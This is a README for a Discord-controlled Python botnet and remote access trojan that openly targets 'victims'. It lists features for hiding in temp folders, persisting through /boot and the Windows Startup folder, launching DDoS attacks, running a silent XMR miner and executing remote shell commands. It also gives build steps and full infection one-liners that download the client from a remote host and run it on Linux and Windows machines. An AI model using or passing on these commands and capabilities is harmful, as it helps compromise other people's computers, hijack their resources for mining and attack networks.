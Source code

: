 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* !webcampic
* !revshell < IP > < PORT >
* !nmap
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !download.< HOSTNAME > < IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap detailed subnet scan)

# How to build
pyinstaller --onefile --noconsole Client.py

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
